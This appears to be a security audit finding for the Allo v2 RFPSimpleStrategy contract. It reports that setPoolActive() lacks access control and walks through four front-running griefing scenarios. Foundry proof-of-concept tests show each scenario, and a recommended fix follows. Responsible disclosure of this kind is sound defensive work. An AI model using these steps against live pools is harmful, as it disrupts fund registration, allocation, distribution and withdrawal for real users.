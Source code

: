 Macho Maroon Scorpion

high

# Anyone can set the status of the pool in `RFPSimpleStrategy#setPoolActive()` to grief the system.
## Summary
The function `RFPSimpleStrategy#setPoolActive()` lacks access controls, enabling any individual to toggle the pool's status between open and closed. This vulnerability can be exploited to disrupt the system and potentially grief its users.

## Vulnerability Detail

The function `setPoolActive(bool)` is an `external` function that could close or open the pool and is meant to be called by the pool owner or manager. 

**Pool Must Be Active:**
- **Internal Functions:**
  1. `_registerRecipient()`: This function registers a recipient, which should only be possible when the pool is active.
  2. `_allocate()`: This function selects a recipient for the RFP allocation, again only possible when the pool is active.

**Pool Must Be Inactive:**
- **Internal Functions:**
  1. `_distribute()`:  Distribute the upcoming milestone to `acceptedRecipientId` , which should only be possible when the pool is inactive. 
  
- **External Functions:**
  1. `withdraw()`: Allows the pool manager to withdraw the funds, which is only possible when the pool is inactive. 


For illustration, let's see how the the system can be griefed for all the above transactions:
- `Bob` is a pool manager responsible for overseeing the funds and ensuring their proper distribution.
- `Alice` is a deserving recipient who has submitted her milestones and is awaiting her funds.
- `Vicky` is a nefarious player in this scenario. She spots a vulnerability in the system: the function `setPoolActive(bool)` lacks proper access controls, potentially allowing anyone, including her, to exploit this oversight.

Attack#1 (Registration Griefing): Alice starts a transaction to register as a recipient in a pool. Sensing an opportunity from a vulnerability, Vicky intervenes. She front-runs Alice's transaction, deactivating the pool. Consequently, Alice's attempt to register as a recipient fails.

**Attack#2 (Allocation Griefing)**: `Bob` initiates the process to allocate funds to `Alice`. However, due to the vulnerability spotted by `Vicky`, she takes advantage. Before `Bob's` transaction is confirmed, `Vicky` front-runs it to execute her own transaction, thereby shutting down the pool. As a result, the intended allocation of funds to `Alice` gets disrupted, causing undue grief in the process of allocation of funds.

**Attack#3 (Distribution Griefing)**: Or if `Bob` gears up to distribute funds to `Alice`, `Vicky` spots an opportunity to exploit the system once more. This time, she front-runs `Bob`'s transaction, preemptively opening the pool. Because of this unexpected move, `Bob` finds himself unable to distribute the intended funds to `Alice`, further complicating the fund allocation process.

**Attack#4 (Withdraw Griefing)** :  Or if `Bob` attempts to withdraw the funds from the pool, `Vicky` can exploit the system by front-running `Bob's` transaction, to activate the pool. 


https://github.com/allo-protocol/allo-v2/blob/851571c27df5c16f6586ece2a1cb6fd0acf04ec9/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219

## Impact
Any pools employing the RFP strategy could face severe disruptions. This vulnerability may lead to widespread griefing, potentially bringing the entire system to a standstill.

## Code Snippet

```solidity


    function testRevert_AnyoneCanCallSetPool() public {
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(true);
        assertTrue(strategy.isPoolActive());

        vm.prank(profile1_notAMember());
        strategy.setPoolActive(false);
        assertFalse(strategy.isPoolActive());
    }


    function testAttack1_Registration_Griefing() public {
        address sender = recipient();
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(recipientAddress(), false, 1e18, metadata);

       //Front running transaction to deactivate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(false);
        assertFalse(strategy.isPoolActive());

        vm.expectRevert(POOL_INACTIVE.selector);
        vm.prank(address(allo()));
        strategy.registerRecipient(data, recipient());
    }


    function testAttack2_Allocation_griefed() public {
        address recipientId = __register_setMilestones();
        //Front running transaction to deactivate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(false);
        assertFalse(strategy.isPoolActive());
        vm.expectRevert(POOL_INACTIVE.selector);
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientId), address(pool_admin()));
    }
    
        function testAttack3_Distribution_Griefing() public {
        address recipientId = __register_setMilestones_allocate();
        vm.deal(pool_admin(), 1e19);
        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);

        //Front running transaction to activate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(true);
        assertTrue(strategy.isPoolActive());


        vm.expectRevert(POOL_ACTIVE.selector);
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());
    }
    
    function testAttack4_Withdraw_Griefing() public {
        allo().fundPool{value: 1e18}(poolId, 1e18);
     
        //Front running transaction to activate the pool
        vm.prank(profile1_notAMember());
        strategy.setPoolActive(true);
        assertTrue(strategy.isPoolActive());

        vm.startPrank(pool_admin());
        vm.expectRevert(POOL_ACTIVE.selector);
        strategy.withdraw(9.9e17); // 1e18 - 1e17 fee = 9.9e17
        assertEq(address(allo()).balance, 0);
        vm.stopPrank();
    }

    //Internal test functions
    function __setMilestones() internal {
        RFPSimpleStrategy.Milestone[] memory milestones = new RFPSimpleStrategy.Milestone[](2);
        RFPSimpleStrategy.Milestone memory milestone = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 7e17,
            milestoneStatus: IStrategy.Status.Pending
        });
        RFPSimpleStrategy.Milestone memory milestone2 = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 3e17,
            milestoneStatus: IStrategy.Status.Pending
        });

        milestones[0] = milestone;
        milestones[1] = milestone2;

        vm.prank(address(pool_admin()));
        vm.expectEmit();
        emit MilestonesSet();
        strategy.setMilestones(milestones);
    }

    function __register_setMilestones() internal returns (address recipientId) {
        recipientId = __register_recipient();
        __setMilestones();
    }

```
## Tool used

Foundry
VS Code

## Recommendation
Consider implementing the access control as described in the natspec comment for `RFPSimpleStrategy#setPoolActive()`. This will ensure that the `msg.sender` is genuinely the pool owner or manager, thus preventing unauthorized or unintended callers from manipulating the function.

```solidity
    /// @notice Toggle the status between active and inactive.
    /// @dev 'msg.sender' must be a pool manager to close the pool. Emits a 'PoolActive()' event.
    /// @param _flag The flag to set the pool to active or inactive
  // @audit `onlyPoolManager(msg.sender)` function modifier applied
    function setPoolActive(bool _flag) external  onlyPoolManager(msg.sender){
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```